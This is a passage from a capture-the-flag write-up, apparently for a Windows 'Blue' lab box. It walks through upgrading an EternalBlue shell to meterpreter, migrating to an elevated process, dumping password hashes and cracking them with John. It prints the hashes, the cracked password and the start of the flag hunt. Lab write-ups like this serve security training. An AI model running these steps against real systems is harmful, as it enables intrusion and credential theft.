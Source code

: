     It should show the cmd prompt after a bit. from there we want to upgrade to a
    meterpreter shell. We can do that by backgrounding the current shell with `ctrl+z` then searching for `post/multi/manage/shell_to_meterpreter` so we can use it with
    `use post/multi/manage/shell_to_meterpreter`
    see which session the DOS prompt is with `sessions -l` then set the sessions With
    `set SESSION [session#]` then `exploit`. If it doesnt work the first time, see if you can re-exploit with the EternalBlue module then try to upgrade the shell again.
    After getting the meterpreter shell module complete you can see its session with `session -l `again and take control of it with `session -i [meterpreterID]`.

    After restarting the exploit and meterpreter shell over a couple of times we are able to see an elevated process to authenticate to with `ps` in the meterpreter shell with `migrate [pID]`.

    After elevating we can hashdump with `hashdump` in the elevated meterpreter shell and
    save those on our local machine. Here are those hashes
    ```
    Administrator:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Jon:ffb43f0de35be4d9917ac0cc8ad57f8d:::
    ```
    BUt we also can use the built in hashdump module in Metasploit with `use post/windows/gather/hashdump` set the correct.
     knowing that Metasploit gives us the hashes in [User]:[SecurityID]:[LMHASH]:[NTLMHASH]
     we can manually strip the users to
     `[User]:[NTLMHASH]:::`
     then use John to crack it with the `rockyou.txt` files
     `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt blue_ntlm.txt`
     John may take a bit to run, but we were able to get `alqfna22    (Jon)`
     which completes our tasks

     ![crackedhashes](2)
    finding the flags
     flag 1:
     ```
     meterpreter > shell
cProcess 1308 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32  

C:\Windows\system32>cd
cd
C:\Windows\system32

C:\Windows\system32>cd \
cd \

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66
